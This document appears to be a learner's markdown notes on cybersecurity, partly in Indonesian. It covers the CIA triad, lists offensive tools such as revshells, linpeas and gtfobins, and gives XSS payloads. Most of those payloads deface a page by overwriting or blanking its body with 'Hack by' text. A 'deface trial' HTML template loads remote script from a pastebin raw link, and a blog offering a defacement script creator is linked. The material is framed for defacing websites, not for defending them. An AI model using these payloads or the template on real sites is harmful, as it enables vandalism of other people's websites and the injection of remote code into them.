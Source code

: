 # cyber security

# CIA Triagle
- CIA Triagle => Confidentiality, Integrity, and Availability.
    - Confidentiality
        - siapa yang boleh mengakses data / informasi tersebut

    - Integrity
        - apa saja yang boleh dilakukan terhadap data / informasi tersebut

    - Availability.
        - bagaimana akses data terhadap data atau informasi

# Tool web
- cyberchef => encode, decode
- dcode => ecnrpysi, decrpysi(chiper)
- revshells => revshell connector
- full ttys => untuk memperbagsu shell
- linpeas => check system vulnerabilty in target server (use in terminal target)
- gtfobins => 

# XSS
- XSS -> 
```
<script>alert("test")</script>
document.documentElement.innerHTML=String.fromCharCode()
<script>document.body.innerHTML = "<h1>Hack by *****</h1>"</script>
<script>document.body.innerHTML = ""</script>
```

- deface trial
    - pastebin/raw =>
    - https://dark-people-team.blogspot.com/2019/08/script-jso-creator-written-by-mine7.html
        ```
        document.body.innerHTML=String.fromCharCode()
        ```
        ```
        <html>
            <head>
                <title>hack by ....</title>
            </head>
            <body>
                <script type="text/javascript" src="https://pastebin.com/raw/awPKPXeK"></script>
            </body>
        </html>
        ```

# JSO
- JSO => 
```
jso
```